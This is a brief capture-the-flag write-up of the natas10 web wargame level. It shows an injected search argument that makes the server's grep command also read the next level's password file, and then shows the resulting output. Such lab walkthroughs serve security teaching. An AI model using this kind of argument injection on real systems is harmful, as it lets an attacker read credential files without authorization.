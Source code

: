 According to the natas10 webpage we have to use the username natas10 and the password from the previous challenge that we found.


As per the previous problem we need access to  /etc/natas_webpass/natas11. So we use the payload ---
"a  /etc/natas_webpass/natas11" to get the password.


/etc/natas_webpass/natas11:<password>
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
...


And we get the password.

